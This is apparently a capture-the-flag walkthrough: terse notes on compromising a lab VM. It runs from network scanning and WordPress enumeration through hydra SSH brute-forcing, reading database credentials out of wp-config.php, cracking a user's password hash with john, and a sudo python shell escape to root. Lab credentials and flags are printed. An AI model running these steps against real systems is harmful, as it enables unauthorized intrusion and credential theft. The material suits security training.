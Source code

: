 # Walkthrough

This file contains my notes as I completed this CTF. Use my notes to help guide you.
ifconfig to get IP
netdiscover -r 192.168.56.0/24 -i eth1
nmap 192.168.56.103
firefox -> 192.168.56.103 to find IP of target
httrack 192.168.56.103 to have offline version of all online files
grep "html" *.html
	service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->
wpscan --url http://192.168.56.103/wordpress -evt -evp -eu
hydra 192.168.56.103 -L users.txt -P /usr/share/wordlists/rockyou.txt ssh
ssh michael@192.168.56.103
cd /var/www/ , cat flag2.txt
	flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
cd html/wordpress
cat wp-config.php (// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

mysql -u root -p R@v3nSecurity
show databases;
use wordpress;
show tables;
select * from wp_posts; flag3{afc01ab56b50591e7dccf93122770cd2}
select * from wp_users;
steven password hash: $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/
exit 2x
touch stevenHash.txt ; nano stevenHash.txt //copy PW in there
john stevenHash.txt -> returns pink84
ssh steven@192.168.56.103 -> PW = pink84
sudo -l (shows that you can run python)
sudo /usr/bin/python
	import os
	os.system('/bin/bash')
now have root access
cd root, cat flag4.txt

flag4{715dea6c055b9fe3337544932f2941ce}














